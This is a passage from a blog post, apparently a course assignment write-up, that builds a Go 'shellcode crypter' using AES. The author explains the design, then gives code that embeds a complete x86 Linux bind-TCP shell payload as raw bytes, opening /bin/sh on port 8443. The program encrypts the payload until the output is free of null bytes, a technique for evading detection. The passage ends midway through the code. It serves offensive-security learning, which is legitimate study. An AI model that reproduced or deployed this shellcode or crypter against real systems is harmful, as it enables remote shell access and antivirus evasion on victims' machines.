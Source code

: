 ```yaml
---
layout: single 
title:  "Custom Shellcode Crypter"
date:   2020-03-30 10:30:06 +0800
categories: jekyll update
---
```


For the last assigment, i choose to use Golang as programming language, this is new programming language for me, so bear with me :).

## Requirements

- Create a custom crypter
- Free to use any existing encryption schema
- Can use any programming language

## Encryption

The encryption schema is using AES ([Advanced Encryption Standard](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard)), also known as Rijndael encryption method, is used by the U.S. federal government as a block encryption standard, is a symmetric key encryption algorithm. 
I've used Golang standard library [aes](https://godoc.org/crypto/aes) implementation. The Golang code is written in go version `go1.14 linux/386`. The program will require one AES key as argument (16 chars). The Bind TCP shellcode from the Assigment #1 will use as sample to test the encryption. The program will encrypt the shellcode with the key and if theencrypted shellcode output contains the `null bytes` the program will keep trying to encrypt until the output of the encrypted shellcode is null free.

{% highlight golang linenos %}
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"fmt"
	"io"
	"os"
	"strings"
)

func main() {
    // bind tcp shellcode assigment #1
	// 0.0.0.0 port 8443 
	origShellcode := []byte{
		0x31, 0xc9, 0xf7, 0xe1, 0x99, 0x6a, 0x66, 0x58, 0x6a,
		0x01, 0x5b, 0x51, 0x6a, 0x01, 0x6a, 0x02, 0x89, 0xe1,
		0xcd, 0x80, 0x97, 0x6a, 0x66, 0x58, 0x6a, 0x02, 0x5b,
		0x52, 0x66, 0x68, 0x20, 0xfb, 0x66, 0x53, 0x89, 0xe1,
		0x6a, 0x10, 0x51, 0x57, 0x89, 0xe1, 0xcd, 0x80, 0x6a,
		0x66, 0x58, 0x6a, 0x04, 0x5b, 0x31, 0xf6, 0x56, 0x57,
		0x89, 0xe1, 0xcd, 0x80, 0x6a, 0x66, 0x58, 0x6a, 0x05,
		0x5b, 0x56, 0x56, 0x57, 0x89, 0xe1, 0xcd, 0x80, 0x89,
		0xc3, 0x6a, 0x02, 0x59, 0xb0, 0x3f, 0xcd, 0x80, 0x49,
		0x79, 0xf9, 0x6a, 0x0b, 0x58, 0x31, 0xc9, 0x51, 0x51,
		0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69,
		0x6e, 0x89, 0xe3, 0xcd, 0x80}

	if len(os.Args[1]) != 16 {
		fmt.Println("ERROR: Key must be 16 chars")
		os.Exit(1)
	}
	//key := []byte("deadbeefdeafface")